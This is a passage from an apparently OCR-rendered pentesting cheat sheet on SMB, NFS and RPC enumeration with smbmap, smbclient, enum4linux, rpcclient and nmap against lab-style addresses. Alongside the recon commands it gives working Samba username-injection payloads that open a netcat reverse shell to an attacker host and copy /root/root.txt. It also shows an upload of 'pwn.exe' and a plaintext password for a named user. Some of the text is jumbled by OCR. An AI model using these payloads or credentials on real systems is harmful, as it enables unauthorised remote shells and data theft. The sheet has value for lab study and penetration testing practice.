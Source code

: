https://github.com/absolomb/Pentesting/blob/master/guides/Initial%20Enumeration.md
#### smbmap

  smbmap -H "10.10.185.43" | tee "recon/smbmap_10.10.185.43.txt"    
  smbmap -H "10.10.185.43" -u milesdyson -p ')s{A&2Z=F^n_E.B`'
  smbmap -u null -p "" -H 10.10.83.190  -P 445 -R 
  
  `smbclient \\\\10.10.104.121\\nt4wrksv`
  .smb: \> put pwn.exe                                                                                                                                       │        dr--r--r--   
#### smbclient

  smbclient --user=milesdyson //10.10.185.43/milesdyson 

  smbclient -L "//10.10.185.43/" -U "guest"%| tee "recon/smbclient_10.10.185.43.txt"              
smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'
  smbclient -L x.x.x.x
  
  smbmount //x.x.x.x/share /mnt –o username=hodor,workgroup=hodor
  
  smbclient //10.10.100.49/anonymous
  
  enum4linux -a ip
  
  
  
  
  client -U "" -N x.x.x.x  #Anonymous bind using rpcclient / Null connect
  
  smbclient //MOUNT/share #Connect to SMB share

  smbclient -U "/=&#92;&#96;nohup nc -e /bin/sh LHOST LPORT&#92;&#96;" -N -I ip //LAME/tmp

  nmap -T4 -sS -sC -Pn -A --script smb-vuln* ip
  
  smbclient //ip/tmp
  logon "./=`nohup nc -e /bin/sh LHOST LPORT`"

  smbclient -U "/=\`nohup cat /root/root.txt > /tmp/ttt\`" -N -I ip //LAME/tmp

  smbclient -U "/=\`nohup nc -e /bin/sh 10.10.15.11 60000\`" -N -I ip //LAME/tmp
  
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.100.49


mount
  mount ip:/vol/share /mnt/nfs  -nolock
  
  mount -t cifs -o username=user,password=pass,domain=blah //ip.X/share-name /mnt/cifs
  
  mount -t cifs //x.x.x.x/share /mnt
  
  mount -t cifs -o username=hodor,password=hodor //x.x.x.x/share /mnt
  
#### Mounting File Share
  showmount -e IPADDR
  sudo mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow_other

# Port 111 - Rpcbind
	rpcinfo -p INSERTIPADDRESS

# Port 123-NTP
	ntp-info and ntp-monlist
	Check ntpd version for exploits
# Port 139/445 - SMB
	• Name:
	• Version:
	• Domain/workgroup name:
	• Domain-sid:
	• Allows unauthenticated login:

nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse INSERTIPADDRESS -p 445
```	
enum4linux -a INSERTIPADDRESS
rpcclient -U "" -N INSERTIPADDRESS		-c options
srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
    smbclient -L INSERTIPADDRESS
    smbclient //INSERTIPADDRESS/tmp
    smbclient \\\\INSERTIPADDRESS\\ipc$ -U john
    smbclient //INSERTIPADDRESS/ipc$ -U john 
	nmblookup -A INSERTIPADDRESS
#Admin Ccount
rpcclient $> enumdomgroups

rpcclient $> querygroup 0x200          
rpcclient $> querygroupmem 0x200
rpcclient $> queryuser 0x1f4            
```
